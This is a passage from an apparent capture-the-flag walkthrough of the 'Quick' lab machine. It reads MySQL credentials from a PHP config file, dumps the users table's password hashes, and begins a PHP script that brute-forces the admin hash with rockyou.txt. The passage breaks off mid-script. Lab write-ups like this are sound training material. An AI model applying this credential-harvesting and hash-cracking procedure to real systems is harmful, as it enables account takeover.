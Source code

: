 ```bash
sam@quick:/var/www/printer$ cat db.php
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
```
The mysql credentials can be found in `/var/www/printer/db.php`.

## Login bypass

Let us check out the database next.

```bash
sam@quick:~$ mysql --user=db_adm quick -p
Enter password: db_p4ss
mysql> show tables;
+-----------------+
| Tables_in_quick |
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)
```
The users table is the most interesting for us. 

```bash
mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```
We are able to read and write to the users table. This results into two possible ways to login to the website.

### Way 1: Cracking the password hash

We can simply write a php bruteforce script, that uses rockyou.txt to crack the hash.

```php
<?php
$handle = fopen("/usr/share/wordlists/rockyou.txt", "r");
$target = "e626d51f8fbfd1124fdea88396c35d05"; # Hash of srvadm

if ($handle)
{
    while (($line = fgets($handle)) !== false) {
        $line = str_replace("\n","",$line); # Remove newline from pw
        $hash = md5(crypt($line,'fa')); # Hash password from wl according to source

        if ($hash == $target) { # Check if we found the correct hash
            print_r("Found password: " . $line . "\n");
            break;
        }
    }

    fclose($handle);
}
else
{
    print_r("Could not open rockyou.txt!");
```